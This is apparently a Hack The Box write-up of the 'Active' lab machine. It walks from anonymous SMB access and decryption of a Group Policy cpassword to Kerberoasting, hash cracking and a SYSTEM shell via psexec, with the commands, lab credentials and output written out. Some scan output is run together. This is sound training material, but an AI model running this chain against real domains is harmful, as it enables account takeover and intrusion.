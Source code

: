 ```yaml
---
title: Active
date: 2023-01-23 10:30
categories: [htb]
tags: [Windows,Outdated Software,GPP,Password Cracking,Kerberoast,Hash Capture,Anonymous Access]
---
```


Active is an easy level Windows machine on HacktheBox which starts with enumerating an SMB share on a domain controller to find an encrypted gpp password, which we can decrypt and get access to the domain as a low priveleged user, we then find that the Administrator account can be Kerberoasted, giving us full access to the DC.

### Enumeration

Nmap shows us 

```bash
# Nmap 7.93 scan initiated Wed Jan 25 21:02:22 2023 as: nmap -sC -sV -p- -oN nmap.out 10.10.10.100N
map scan report for active.htb (10.10.10.100)
Host is up (0.049s latency).
Not shown: 65512 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2SP1)
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-01-26 02:03:19Z)135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http Microsoft Windows RPC over HTTP 1.0636/tcp   open  tcpwrapped
3268/tcp  open  ldap       Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5722/tcp  open  msrpc         Microsoft Windows RPC9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)|_http-server-header: Microsoft-HTTPAPI/2.0|_http-title: Not Found
49152/tcp open  msrpc   Microsoft Windows RPC
49153/tcp open msrpc Microsoft Windows RPC4
9154/tcp open  msrpc     Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         Microsoft Windows RPC49165/tcp open  msrpc   Microsoft Windows RPC
49170/tcp open  msrpc         Microsoft Windows RPC
49171/tcp open  msrpc         Microsoft Windows RPCService Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows
```

Our trusty nmap script gave us tons of info, the open ports (53,88,139,389,445) tell us we will be attacking a domain controller, which nmap has found is named DC.active.htb, so we'll add DC.active.htb and active.htb to our /etc/hosts file. We can poke around SMB to check if there's any non-standard shares, we can expect to atleast see SYSVOL, NETLOGON, and some admin shares (though we probably won't be able to read the contents). We can use smbclient -l to list the shares which shows us:

```bash
smbclient -L //10.10.10.100/      
Password for [WORKGROUP\kali]:
Anonymous login successful        
Sharename       Type      Comment       
---------       ----      -------        
ADMIN$          Disk      Remote Admin        
C$              Disk      Default share        
IPC$            IPC       Remote IPC        
NETLOGON        Disk      Logon server share         
Replication     Disk              
SYSVOL          Disk      Logon server share         
Users           Disk      
Reconnecting with SMB1 for workgroup listing.
```

If we try to go inside any of these, we get `tree connect failed: NT_STATUS_ACCESS_DENIED` except for the Replication share. Let's download the entire share to our machine with:

```bash
└─$ smbclient //10.10.10.100/Replication/
Password for [WORKGROUP\kali]:
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> recurse on
smb: \> prompt off
smb: \> mget *
```

There's not much, but we do find a Groups.xml file, which contains a username and encrypted "cpassword". Sysadmins used to be able to set user passwords via Group Policy with cpasswords, until Microsoft patched it in 2014 and blocked usage of the cpassword in new policies, which is cool, but they also leaked the decryption key on their support site. We can use a default kali tool "gpp-decrypt" to decrypt the password. Anyways this is what the groups.xml file looks like.

```bash
└─$ cat /home/kali/htb/Active/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/Groups.xml

<?xml version="1.0" encoding="utf-8"?><Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User></Groups>
```

Decrypting the cpassword gives us the credentials SVC_TGS:GPPstillStandingStrong2k18, which lets us grab the user flag with 

```bash
smbclient //10.10.10.100/Users/ -U "SVC_TGS"
```

We can also use some tools from the Impacket suite to interact with the domain.

```bash
./GetADUsers.py -all active.htb/svc_tgs:GPPstillStandingStrong2k18
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Querying active.htb for information about domain.Name                  Email                           PasswordLastSet        LastLogon           --------------------  -----------------------------  -------------------  -------------------
Administrator           2018-07-18 15:06:40.351723     2023-01-25 18:58:13.159750 
Guest                   <never>                        <never>             
krbtgt                  2018-07-18 14:50:36.972031     <never>             SVC_TGS                 2018-07-18 16:14:38.402764     2023-01-26 12:25:29.633317 
```

We can see if any users are kerberoastable by requesting service tickets from the domain controller with the GetUserSPNS.py script.

```bash
./GetUserSPNs.py active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100 -request
``` 

Which gives us an administrator hash we can crack using john.

```bash
john hash.txt --show                                            
?:Ticketmaster1968
```

We can then use psexec to get a shell with these credentials

```bash
./psexec.py active.htb/Administrator:Ticketmaster1968@10.10.10.100
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Requesting shares on 10.10.10.100.....
[*] Found writable share ADMIN$
[*] Uploading file TACcfYCj.exe
[*] Opening SVCManager on 10.10.10.100.....
[*] Creating service xJWe on 10.10.10.100.....
[*] Starting service xJWe.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
C:\Windows\system32> whoami
nt authority\system
```
